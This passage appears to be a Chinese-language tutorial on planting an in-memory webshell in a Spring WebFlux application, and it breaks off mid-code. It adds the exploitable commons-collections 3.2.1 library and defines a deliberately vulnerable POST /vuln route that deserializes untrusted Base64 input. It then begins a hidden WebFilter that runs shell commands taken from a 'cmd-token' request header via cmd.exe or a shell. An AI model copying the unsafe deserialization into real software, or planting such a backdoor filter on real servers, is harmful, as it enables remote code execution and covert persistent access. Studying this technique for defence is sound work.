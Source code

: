 ### 实例

首先在 webflux 应用中引入了存在 CC 利用链的依赖

```plain
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

创建一个 POST /vuln 路由，用来接收 Base64 编码的序列化数据

```plain
@Bean
public RouterFunction<ServerResponse> routeVuln(GreetingHandler greetingHandler) {
    return RouterFunctions.route(RequestPredicates.POST("/vuln").and(RequestPredicates.accept(MediaType.APPLICATION_FORM_URLENCODED)), greetingHandler::vuln);
}
```

一个处理请求进行反序列化调用的 handler

```plain
public Mono<ServerResponse> vuln(ServerRequest request) {
        return request.bodyToMono(String.class)
                .flatMap(data -> {
                    try {
                        // 输出接收到的 data 参数值
                        System.out.println("Received data: " + data.substring(3));
                        // 进行 Base64 解码
                        byte[] bytes = Base64.getDecoder().decode(URLDecoder.decode(data.substring(3)));

                        // 创建输入流并进行反序列化
                        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
                        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
                        Object deserializedObject = objectInputStream.readObject();

                        return ServerResponse.ok().build(); // 返回一个表示处理成功的响应
                    } catch (Exception e) {
                        e.printStackTrace();
                        return ServerResponse.status(500).build(); // 返回一个表示处理失败的响应
                    }
                });
```

自定义的 filter 的逻辑

1.  通过从`ServerWebExchange`中获取请求头`cmd-token`进行执行命令的传入
2.  通过 response.writeWith 方法传入一个`Publisher`进行命令直接结果的返回

```plain
@Override
    public reactor.core.publisher.Mono<Void> filter(ServerWebExchange exchange, WebFilterChain chain) {
        try {
            String cmd = exchange.getRequest().getHeaders().get("cmd-token").get(0);
            if (cmd != null) {
                try {
                    ProcessBuilder processBuilder;
                    String o = "";
                    if (System.getProperty("os.name").toLowerCase().contains("win")) {
                        processBuilder = new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd});
                    } else {
```
